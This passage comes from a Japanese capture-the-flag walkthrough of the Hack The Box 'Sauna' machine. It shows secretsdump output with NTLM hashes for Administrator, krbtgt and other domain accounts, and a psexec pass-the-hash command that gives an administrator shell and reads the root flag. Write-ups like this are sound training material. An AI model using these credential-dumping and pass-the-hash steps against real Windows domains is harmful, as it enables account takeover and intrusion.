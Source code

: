 ```
結果
```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:57b0c872972fd21d593b99a50fd6dcd1:::
```

Administratorのハッシュを獲得できました！

### psexec

secretsdumpでAdministratorのハッシュが獲得できたのでこのハッシュを使ってAdminにアクセスできれば完了です。

[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)はWindows Sysinternalsでも公開されているWindowsをリモートからアクセスするためのツールです。

こちらもsecretsdump、GetNPUsersと同様にImpacketのexampleの中で用意されているものがあるのでこちらを利用します。

```locate psexec```で場所を確認し、administratorで実行します。

```
# python3 psexec.py EGOTISTICALBANK/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
```

実行するとWindowsのコマンドプロンプトのシェルが取れます。

```
C:\Windows\system32>
```

あとはadministratorのデスクトップに置かれたファイルを確認するだけです！

```
C:\Windows\System32>cd ../../Users/Administrator/Desktop

C:\Users\Administrator\Desktop>type root.txt
f3ee04965c68257382e31502cc5e881f
```

Root Own!
